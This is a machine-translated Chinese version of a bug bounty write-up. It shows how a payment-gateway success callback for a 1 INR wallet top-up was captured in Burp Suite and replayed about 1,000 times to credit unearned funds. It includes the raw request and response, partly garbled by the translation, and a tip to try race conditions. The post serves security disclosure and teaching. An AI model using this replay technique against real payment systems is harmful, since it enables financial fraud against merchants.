





# 如何添加无限量(现金)到电子商务应用程序的钱包只是从 1 印度卢比只。

> 原文：<https://infosecwriteups.com/how-to-add-infinity-amount-cash-to-e-commerce-applications-wallet-just-from-1-inr-only-6f33d6fb5e2d?source=collection_archive---------0----------------------->

嗨，信息安全的伙计们！！！！希望你一切都好。如果你在这里，那么你有兴趣了解更多。这一发现对于一些 1337 infosec 的人来说并不是唯一的，但是大多数人并没有测试这种情况。

我测试了一个电子商务应用程序，使用了我的电子商务应用程序专用的清单。我在应用程序上发现了许多漏洞，如动态口令响应、价格操纵、数量操纵等。

在这里，我将谈论增加钱包中的金额，以及我是如何滥用它来获得数千美元的赏金的错误。我将使用[www.redacted.com](http://www.redacted.com)作为目标主机。

我创建了一个帐户，并转到钱包部分。我开始时没有印度卢比。

然后有一个选项，用一些支付网关添加钱包中的金额。我在输入框中添加了 1，选择了 PayTM gateway 并点击了 add to wallet。

然后，有一个支付网关页面，你可以选择以下任何一个选项。我选择了 paytm 选项，添加了我的 paytm 号码并验证了它。

现在，我用浏览器配置了 BurpSuite，并截取了请求。

现在，我点击了付费。1 并检查 BurpSuite 中的每一个请求。我转发了所有与 paytm gateway 相关的请求。然后我在 BurpSuite 收到一个可疑的请求。

请求:

> POST/pg response . PHP HTTP/1.1【www.redacted.com】主机:T2
> 用户代理:Mozilla/5.0(Macintosh；英特尔 Mac OS X 10.15；RV:78.0)Gecko/2010 01 01 Firefox/78.0
> 接受:text/html，application/xhtml+xml，application/XML；q=0.9，image/webp，*/*；q=0.8
> 接受-语言:en-US，en；q=0.5
> Accept-Encoding: gzip，deflate
> Content-Type:application/x-www-form-urlencoded
> Content-Length:404
> Origin:https://securegw . pay TM . in
> Connection:close
> Referer:https://securegw.paytm.in/theia/processTransaction
> Cookie:PHPSESSID = xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx；t * * * connection time = 0；_ _ T * * * uuid = xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
> 升级-不安全-请求:1
> 
> CURRENCY = INR & gateway name = WALLET & resp msg = Txn+Success & bank name = WALLET & payment mode = PPI & MID = xxxxxx79987247 XXXXXX & resp code = 01 & tx NID = 202007 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx & Txn amount = 1.00 & ORDERID = orders 157 xxxxxxxx & STATUS = TXN _ Success & bank TXNID = 1410 xxxxxxxx & Txn date = 2020–01–11+22

回应:

> HTTP/1.1 200 OK
> 日期:2020 年 1 月 11 日星期六 17:09:32 GMT
> 服务器:Apache/2.4.18 (Ubuntu)
> 过期时间:0
> Cache-Control:no-Cache
> Pragma:no-Cache
> Vary:Accept-Encoding
> Content-Length:116
> Connection:close
> Content-Type:text/html；字符集=UTF-8
> 
> **等待…**
> **交易状态为成功**

我把上面的请求发送到 REPEATER Tab 并拦截了。

我检查了钱包，并成功地添加了金额(1 印度卢比)。

因此，场景是支付网关向客户端发送一个关于成功完成支付的响应，然后从客户端向目标服务器生成一个添加钱包金额的请求(在请求之上)。

现在，我将 TXAMOUNT 的值从 1.00 更改为 10000.00 并发送它，但没有成功。

然后，我发送原来的请求(上面的请求),进入浏览器并刷新页面。

嘣！！！！！1 印度卢比已成功添加到钱包中。所以现在，钱包的总数是 2 印度卢比。(我将原始请求发送给入侵者，并发送了 1000 个有效负载为空的请求，1000INR 被添加到我的钱包中。)

# #注意:

1.  检查每一个请求。
2.  如果上面的测试用例不适合你，那么就有必要检查一下附加货币端点上的竞争条件问题——使用 Turbo Intruder 或使用编码技巧来实现它。

如果你喜欢它，请鼓掌并与其他 infosec 成员分享。

你可以在[推特](https://www.twitter.com/sengarharshit1)、 [Linkedin](https://www.linkedin.com/in/sengarharshit1) 上关注我

谢谢！！！！

希望你喜欢它和我以前的博客。